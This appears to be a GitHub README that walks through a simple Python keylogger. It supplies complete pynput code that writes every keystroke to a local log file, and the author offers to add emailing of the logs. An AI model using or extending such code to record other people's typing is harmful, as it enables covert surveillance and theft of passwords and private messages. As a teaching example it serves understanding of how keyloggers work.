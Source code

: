 # Keylogger

Welcome to the repository of a simple keylogger! A **keylogger** is a program that records your keystrokes, and this program saves them in a log file on your local computer.


The following will provide documentation on how to make a keylogger. You can extend the capabilities of your program by using other libraries. 

If you want me to add to this program sending messages to mail, then write in comments in my [publick](https://t.me/coder_trash)


# Beginning

*Before you start, install the [library](https://pypi.org/project/pynput/)*:

```python
pip install pynput
```

```
from pynput import keyboard
```

Function that triggers when pressed and writes data to the `test.txt` file

```python
def on_press(key):
    global count_ctrl, count_shift

    try:
        key = key.char
    except:
        key = str(key).split(".")[1].upper()
        key = f"[{key}]"

    with open("test.txt", "a", encoding="UTF-8") as file:
        if key == "[ENTER]":
            file.write(key)
            file.write("\n")
        elif key == "[CAPS_LOCK]":
            count_ctrl += 1
        elif key == "[SHIFT]":
            count_shift = True
        else:
            if count_ctrl % 2 == 0 or count_shift:
                file.write(key.upper())
            else:
                file.write(key)

```

The on_release function is triggered when the button is pressed and terminates the program when `ESC` is pressed.  

```python
def on_release(key):
    global count_shift
    if key == keyboard.Key.esc:
        return False
    
    if key == keyboard.Key.shift:
        count_shift = False
```

**Be sure to remember to write the code below so that your program does not crash:**

```python
count_ctrl = 1
count_shift = False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

